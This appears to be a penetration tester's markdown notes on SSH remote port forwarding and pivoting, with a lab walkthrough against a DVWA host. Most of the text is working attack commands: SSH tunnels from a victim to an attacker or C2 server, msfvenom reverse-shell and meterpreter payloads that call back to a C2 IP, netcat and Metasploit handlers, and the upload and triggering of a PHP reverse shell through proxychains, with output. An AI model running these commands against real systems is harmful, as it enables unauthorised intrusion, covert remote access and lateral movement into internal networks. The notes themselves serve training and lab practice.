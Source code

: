 # Remote Port Forwarding

## 01 - Usage

```
user@pentestos:~$ cat /etc/ssh/sshd_config
..[truncated]..
GatewayPorts yes
..[truncated]..
```

### 1.1 - Syntax

#### 1.1.1 - Victim port forwarding to the attacker's SSH server

```
$ ssh -NTfCq -R [<bind_IP>:]<local_PORT>:<bind_remote_IP>:<bind_remote_PORT> <username>@<attacker_IP>
```

#### 1.1.2 - Remote Port forwarding reverse shells via SSH Tunnel as C2 Server

```
$ ssh -NTfCq -R <local_PORT>:127.0.0.1:<bind_remote_PORT> <username>@<C2_IP>
```

Generate a reverse callback shell and start a shell handler via `netcat`.

```
$ msfvenom -p linux/x86/shell/reverse_tcp lhost=<C2_IP> lport=<local_PORT> -f elf -o shell.elf

$ nc -lnvp <bind_remote_PORT>
```

Generate a reverse callback shell and start a shell handler via `metasploit-framework`.

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<C2_IP> lport=<local_PORT> -f elf -o shell.elf

msf > use payload/linux/x86/meterpreter/reverse_tcp

msf payload(linux/x86/meterpreter/reverse_tcp) > set lhost <C2_IP>

msf payload(linux/x86/meterpreter/reverse_tcp) > set lport <bind_remote_PORT>

msf payload(linux/x86/meterpreter/reverse_tcp) > to_handler
```

## 02 - Scenarios

### 2.1 - Reverse SSH Tunneling

TODO: Make a network topology diagram to illustrate the pivoting scenario and redo the lab

```
user@pentestos:~$ ssh fox@10.0.2.15

fox@ubuntulinux:~$ ssh -NTfCq -R 8888:192.168.56.106:80 -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" user@10.0.2.4
```

![[01 - Reverse Port Forwarding.png]]

```
fox@ubuntulinux:~$ ss -antp
State          Recv-Q         Send-Q                 Local Address:Port                    Peer Address:Port          Process
LISTEN         0              128                          0.0.0.0:22                           0.0.0.0:*
LISTEN         0              128                          0.0.0.0:8888                         0.0.0.0:*
ESTAB          0              0                           10.0.2.4:42586                      10.0.2.15:22             users:(("ssh",pid=5282,fd=3))
ESTAB          0              0                           10.0.2.4:22                         10.0.2.15:44498
LISTEN         0              128                             [::]:22                              [::]:*
LISTEN         0              128                             [::]:8888                            [::]:*
```

Grab the port using [[Local Port Forwarding|local port forwarding]] method. Then navigate through the web browser.

```
user@pentestos:~$ ssh -L 8888:127.0.0.1:8888 fox@10.0.2.15
```

### 2.2 - Reverse SSH Tunnel via Reverse Callback Shell

TODO: Make a network topology diagram to illustrate the pivoting scenario and redo the lab

```
user@pentestos:~$ ssh fox@10.0.2.15 -NTfCq -D1080 -R 192.168.56.111:4455:127.0.0.1:4445
```

![[01 - Reverse Shell Tunnel.png]]

```
user@pentestos:~$ msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.111 lport=4455 -f raw -o rsh.php
```

Launch a shell handler in metasploit for incoming sessions.

TODO: Repeat the steps

```
msf6 > use exploit/mutli/handler
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 > exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 > exploit(multi/handler) > set lhost 192.168.56.111
lhost => 192.168.56.111
msf6 > exploit(multi/handler) > set lport 4445
lport => 4445
msf6 > exploit(multi/handler) > set disablepayloadhandler true
disablepayloadhandler => true
msf6 > exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[-] Handler failed to bind to 192.168.56.111:4445:-  -
[*] Started reverse TCP handler on 0.0.0.0:4445
```

Upload the reverse shell.

![[02 - PHP File Upload.png]]

Edit the Proxychains configuration.

```
user@pentestos:~$ cat /etc/proxychains4.conf
..[truncated]..
socks5  127.0.0.1 1080
```

Then execute the reverse shell.

```
user@pentestos:~$ proxychains curl -X GET http://192.168.56.106/dvwa/hackable/uploads/rsh.php
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.106:80  ...  OK

user@pentestos:~$ curl --socks5 127.0.0.1:1080 -X GET http://192.168.56.106/dvwa/hackable/uploads/rsh.php
```

We have established a meterpreter reverse shell.

![[03 - MSF Reverse Callback Shell.png]]

---
## References

- [LinuxHint: SSH StrickHostKeyChecking](https://linuxhint.com/ssh-stricthostkeychecking/)

- [SkyDogCon 2017: "SSH+MSF+TOR = Anonymous Remote Shells" by Catatonic Prime](https://www.youtube.com/watch?v=RvZ9-hD-KZw)

- [PayloadsAllTheThings: Network Pivoting Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)

- [FareedFauzi OSCP Playbook: Port Forwarding SSH Tunneling](https://fareedfauzi.gitbook.io/oscp-notes/others/port-forwarding-ssh-tunneling)

- [Certcube: Pivoting and SSH Port Forwarding Basics](https://blog.certcube.com/pivoting-and-ssh-port-forwarding-basics/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

- [RawSec: Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

### Scenarios

- [Bryan Leong (NobodyAtall): Network Pivoting Using SSH Return Reverse Shell From Internal Network Machine](https://bryanleong98.medium.com/network-pivoting-using-ssh-return-reverse-shell-from-internal-network-machine-f1c5043b2d86)

- [Anestis Bechtsoudis: Using SSH Socks Proxies with MSF Reverse TCP Payloads](https://bechtsoudis.com/archive/2012/06/08/using-ssh-socks-proxies-with-msf-reverse-tcp-payloads/index.html)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)